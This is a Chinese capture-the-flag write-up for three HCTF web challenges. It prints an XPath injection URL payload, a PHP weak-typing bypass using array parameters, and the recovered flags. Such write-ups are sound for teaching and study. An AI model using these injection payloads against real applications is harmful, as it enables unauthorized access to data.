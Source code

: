 > 原文链接: https://www.anquanke.com//post/id/83061 


# HCTF-WriteUp


                                阅读量   
                                **178015**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p1.ssl.qhimg.com/t010bf0d1d98aa58c3a.png)](https://p1.ssl.qhimg.com/t010bf0d1d98aa58c3a.png)**

**Team:F4nt45i4                  Member: kow wuyihao nlfox**

**WEB****题目**

**injection **

        根据官方的提示 xpath injection,到google搜了一堆payload,最后找了一个直接用了:

        http://120.26.93.115:24317/0311d4a262979e312e1d4d2556581509/index.php?user=user1%27]|//*|user[user=%27user2

        得到flag:

        hctf`{`Dd0g_fac3_t0_k3yboard233`}`

**<br>**

**Personal blog **

        根据网页上的提示,查找源码,一开始找的是网页源码,发现没什么卵用,最后发现网站是托管在github上的,根据博客主的用户名到github上搜,发现博客的源码:

[![](https://p0.ssl.qhimg.com/t014afe0f48154ab58d.png)](https://p0.ssl.qhimg.com/t014afe0f48154ab58d.png)

[![](https://p4.ssl.qhimg.com/t0150e29c892328029e.png)](https://p4.ssl.qhimg.com/t0150e29c892328029e.png)

        Base64decode得到flag:

        hctf`{`H3xo_B1og_Is_Niu8i_B1og`}`

**<br>**

**fuck ===**

        利用php弱类型绕过的题,直接构造:

        http://120.26.93.115:18476/eff52083c4d43ad45cc8d6cd17ba13a1/index.php?a[]=aaa&amp;b[]=bbb

        得到flag:

        hctf`{`dd0g_fjdks4r3wrkq7jl`}`
